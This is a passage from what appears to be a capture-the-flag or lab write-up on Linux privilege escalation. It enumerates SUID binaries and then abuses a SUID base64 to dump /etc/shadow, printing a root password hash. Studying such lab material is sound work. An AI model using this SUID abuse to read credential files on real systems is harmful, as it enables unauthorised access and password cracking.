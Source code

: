 Nothing here.

### suid

```bash
[leonard@ip-10-10-111-57 ~]$ find / -type f -perm -04000 2>/dev/null

/usr/bin/base64
/usr/bin/ksu
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chage
/usr/bin/newgrp
..
..
..
```

We try the "base64" path.

```bash
[leonard@ip-10-10-111-57 ~]$ base64 $LFILE | base64 --decode
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
```
